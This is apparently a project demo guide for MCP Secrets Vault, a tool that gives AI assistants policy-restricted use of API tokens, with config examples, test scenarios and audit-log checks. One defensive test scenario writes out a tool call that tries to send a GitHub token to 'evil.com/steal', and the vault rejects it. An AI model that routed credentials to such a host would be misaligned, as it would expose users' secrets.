 # MCP Secrets Vault - Demo Guide

## Example Usage with Claude Code

![MCP Secrets Vault Demo](./docs/assets/demo.gif)

## 🎯 Overview

This demo shows how to set up and use MCP Secrets Vault to securely manage API keys and tokens for AI assistants.

## 🚀 Quick Start

### 1. Install the Package

```bash
npm install -g mcp-secrets-vault
# or use npx without installing
npx mcp-secrets-vault doctor
```

### 2. Set Up Your Secrets

Create environment variables for your secrets:

```bash
export GITHUB_TOKEN="your-github-token"
export OPENAI_API_KEY="your-openai-key"
export SLACK_BOT_TOKEN="your-slack-token"
```

### 3. Create Configuration

Create `vault.config.json`:

```json
{
  "version": "1.0.0",
  "mappings": [
    {
      "secretId": "github_token",
      "envVar": "GITHUB_TOKEN",
      "description": "GitHub API access"
    },
    {
      "secretId": "openai_key",
      "envVar": "OPENAI_API_KEY",
      "description": "OpenAI API access"
    }
  ],
  "policies": [
    {
      "secretId": "github_token",
      "allowedActions": ["http_get", "http_post"],
      "allowedDomains": ["api.github.com"],
      "rateLimit": {
        "requests": 100,
        "windowSeconds": 3600
      }
    },
    {
      "secretId": "openai_key",
      "allowedActions": ["http_post"],
      "allowedDomains": ["api.openai.com"],
      "rateLimit": {
        "requests": 50,
        "windowSeconds": 3600
      }
    }
  ]
}
```

### 4. Verify Setup

```bash
npx mcp-secrets-vault doctor vault.config.json
```

### 5. Configure Claude Desktop

Add to your Claude Desktop `config.json`:

```json
{
  "mcpServers": {
    "secrets-vault": {
      "command": "npx",
      "args": ["mcp-secrets-vault"],
      "env": {
        "VAULT_CONFIG": "/absolute/path/to/vault.config.json"
      }
    }
  }
}
```

## 📋 Test Scenarios

### Scenario 1: List Available Secrets

The AI can discover what secrets are available without seeing their values:

```
Tool: discover_secrets
Response: Lists github_token and openai_key with descriptions
```

### Scenario 2: Check Policy

The AI can check what's allowed for each secret:

```
Tool: describe_policy
Input: { "secretId": "github_token" }
Response: Shows allowed domains (api.github.com) and actions (GET, POST)
```

### Scenario 3: Use a Secret

The AI can make API calls without seeing the actual token:

```
Tool: use_secret
Input: {
  "secretId": "github_token",
  "action": "http_get",
  "url": "https://api.github.com/user/repos"
}
Response: Returns API response without exposing the token
```

### Scenario 4: Rate Limiting

If too many requests are made:

```
Response: Rate limit exceeded (e.g., 100 requests per hour for GitHub)
```

### Scenario 5: Policy Violation

Trying to use a secret for unauthorized domain:

```
Tool: use_secret
Input: {
  "secretId": "github_token",
  "url": "https://evil.com/steal"
}
Response: Domain not allowed (only api.github.com is allowed)
```

## 🔒 Security Features Demonstrated

1. **Secret Isolation**: AI never sees actual secret values
2. **Domain Restrictions**: Exact FQDN matching only
3. **Action Control**: Only specified HTTP methods allowed
4. **Rate Limiting**: Prevents abuse with token bucket algorithm
5. **Audit Trail**: All attempts logged to JSONL files
6. **Error Safety**: Secrets never appear in error messages

## 📊 Checking Audit Logs

After running tests, check the audit trail:

```bash
# View audit files
ls -la ./audit/

# Read recent audit entries
tail -n 10 ./audit/audit-*.jsonl
```

Example audit entry:
```json
{
  "timestamp": "2025-08-21T10:30:00Z",
  "secretId": "github_token",
  "action": "http_get",
  "domain": "api.github.com",
  "outcome": "allowed",
  "statusCode": 200
}
```

## 🧪 Test Commands

```bash
# Run diagnostics
npx mcp-secrets-vault doctor vault.config.json

# Test with real environment
export VAULT_CONFIG=./vault.config.json
npx mcp-secrets-vault  # Starts MCP server

# In another terminal, send test requests
echo '{"jsonrpc":"2.0","id":1,"method":"initialize","params":{"protocolVersion":"1.0.0"}}' | npx mcp-secrets-vault
```

## ⚠️ Important Notes

1. **Never commit real secrets** to version control
2. **Use test tokens** for demonstrations
3. **Set proper rate limits** based on your API quotas
4. **Review audit logs** regularly for security
5. **Keep policies strict** - deny by default

## 🎉 Success Indicators

✅ Doctor command shows all green checks
✅ Claude Desktop can discover available secrets
✅ API calls work without exposing tokens
✅ Rate limits are enforced
✅ Audit logs are being written
✅ Invalid domains are rejected

## 🆘 Troubleshooting

If the doctor command shows errors:

1. **Missing environment variables**: Set them in your shell
2. **Invalid configuration**: Check JSON syntax
3. **Permission issues**: Ensure audit directory is writable
4. **Global installation issues**: Use npx or reinstall

## 📚 Next Steps

1. Add more secrets and policies
2. Configure audit log rotation
3. Set up monitoring for audit events
4. Integrate with your CI/CD pipeline
5. Deploy to production with real tokens

---

For more information, visit: https://github.com/RachidChabane/mcp-secrets-vault
